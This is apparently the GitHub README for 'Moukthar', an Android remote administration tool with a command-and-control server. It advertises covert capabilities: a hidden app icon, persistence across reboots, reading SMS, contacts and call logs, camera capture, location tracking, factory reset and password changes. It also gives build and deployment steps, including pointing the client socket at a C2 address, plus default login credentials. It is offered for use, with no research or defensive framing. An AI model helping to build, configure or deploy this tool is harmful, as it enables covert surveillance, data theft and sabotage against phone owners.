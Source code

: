 # Moukthar

Codebase foundation for an Android Remote Administration Tool with C2 Server

## Features
- Persistent reconnection with C2 regardless if the client application is closed or placed in background or the device is restarted or current connection is interrupted
- Hidden App Icon
- Send/Read SMS
- Write/Read Contacts
- Read Call Log
- Dial USSD code without opening dialer (API 26+)
- Take Picture (Front/Back camera)
- Take Screenshot
- Make Phone Call
- List Installed Apps
- Vibrate Phone
- Get Device Location
- Change Wallpaper
- Factory Reset Device
- Reboot Device
- Change Device Password

![Android](https://img.shields.io/badge/Android-3DDC84?style=for-the-badge&logo=android&logoColor=white)
![Flask](https://img.shields.io/badge/Flask-FFFFFF?style=for-the-badge&logo=flask&logoColor=black)
![Java](https://img.shields.io/badge/java-%23ED8B00.svg?style=for-the-badge&logo=java&logoColor=white)

## NB
```
USERNAME: android
PASSWORD: the rastafarian in me
```
<!-- PEM PASS PHRASE: android -->
Replace the domain value with your ip/domain in ```__init__.py``` wherever you see the line
```python
resp.set_cookie(key="", value="", expires="", domain="your ip/domain")
```
to enable Remember Me functionality in the Login page.

Specify the ip/domain of the C2 server in the [Client app](client/app/src/main/java/com/ot/androidrat/MainService.java#L32).

```java
Socket ioSocket = IO.socket(URI.create("http://C2_ADDRESS:5001"));
```

## Build APK
- Open up the client folder as a project in android studio 
- Replace C2_ADDRESS with the ip address of your server here: https://github.com/Tomiwa-Ot/moukthar/blob/9d7f431bf8eb8af1490b7412818b123354504951/client/app/src/main/java/com/ot/androidrat/MainService.java#L32
- For building the apk:
https://developer.android.com/studio/run

## Production Environment Setup
For linux envitonments, run ```server/setup.sh``` with a privileged user to make moukthar a service.
```console
user@pc1:~/moukthar$ chmod +x ./server/setup.sh
user@pc1:~/moukthar$ sudo ./server/setup.sh
```

### Nginx
```/etc/nginx/sites-available/moukthar```
```nginx
server{
    listen 80;
    server_name moukthar;
    access_log /var/log/nginx/moukthar.access.log;
    error_log /var/log/nginx/moukthar.error.log;

    location / {
       include proxy_params;
       proxy_pass https://127.0.0.1:5001;
    }
}
```
## Screenshots
![Login Page](screenshots/login.png)
![Dashboard](screenshots/dashboard.png)
![Terminal](screenshots/terminal.png)
![SMS](screenshots/sms.png)
![Files](screenshots/files.png)
![Reset Password](screenshots/reset%20password.png)
![Client app requesting permissions 1](screenshots/app-permission1.png)
![Client app requesting permissions 2](screenshots/app-permission2.png)
![Client app](screenshots/client-app.png)

## Warning
THE SOFTWARE IS PROVIDED "AS IS", WITHOUT WARRANTY OF ANY KIND, EXPRESS OR IMPLIED, INCLUDING BUT NOT LIMITED TO THE WARRANTIES OF MERCHANTABILITY, FITNESS FOR A PARTICULAR PURPOSE AND NONINFRINGEMENT. IN NO EVENT SHALL THE AUTHORS OR COPYRIGHT HOLDERS BE LIABLE FOR ANY CLAIM, DAMAGES OR OTHER LIABILITY, WHETHER IN AN ACTION OF CONTRACT, TORT OR OTHERWISE, ARISING FROM, OUT OF OR IN CONNECTION WITH THE SOFTWARE OR THE USE OR OTHER DEALINGS IN THE SOFTWARE.

